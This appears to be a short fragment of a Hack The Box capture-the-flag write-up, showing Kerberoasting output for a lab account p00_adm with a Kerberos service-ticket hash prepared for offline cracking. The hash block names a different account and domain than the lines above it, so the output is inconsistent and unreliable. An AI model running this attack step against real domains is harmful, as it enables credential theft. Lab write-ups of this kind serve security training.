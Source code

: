 ![MSSQL](/assets/images/htb-writeup-poo/Screenshot_20.png)

```
SamAccountName       : p00_adm
DistinguishedName    : CN=p00_adm,CN=Users,DC=intranet,DC=poo
ServicePrincipalName : cyber_audit/intranet.poo:443
Hash                 : 
$krb5tgs$23$*ID#124_DISTINGUISHED NAME: 
                       CN=fakesvc,OU=Service,OU=Accounts,OU=EnterpriseObjects,DC=asdf,DC=pd,DC=fakedomain,DC=com SPN: 
                       F3514235-4C06-11D1-AB04-00D04FC2DCD2-GDCD/asdf.asdf.pd.fakedomain.com:50000 *9620431D1BC1A2DF294
                       A18B600DC2059$B10813B73B0CBBA3446682112C221A01BDE25B8FCE87B66F3967CD45FFEE9E6446C16D4D90EA0956E3
                       C9BEFDFC3C9855007C323BB99BC397063024FCB5CD34B3EFD0B1280A13F0D1200E543A6A71BEBB4AF120F20B32B7C4BE
                       BBC8660F01B973B382697E934493127294DD302B7AB10A117B22C5FBEE38B0ECF5B0525BCCE1F437B03E00A8C58243FF
                       9CA6EF986AE9D92335F5412C22D96E96592F8CB9AFA0F93966BFBC48DA58C2A2333169599301A236D36CE9B26EFA30F7
                       A6ED991C0EB139D9293930F8DC7B4BBB8675ECF273EC4D218F349A188B314B569F57570C06FF1C2B0FB06B22C37FAF46
                       78FF92B4D7FE37E14DBF3A5C383B12973B4509173D50688B431D33F5E8B97F009AA14218E787E3FBB4794BD930B38515
                       82AEBD8935B8E399CC146FD8684D5FC4291643A11D6130F1D8879CAFEB48CE06C709D3D4FBC2AE10748960CB6CD3A12D
                       C80F55996CD92237FC8C2A72593797AECA14B8DD1A3F46255C7158D23C2E673CC6217255A588AF9FA747B6535EA2937C
```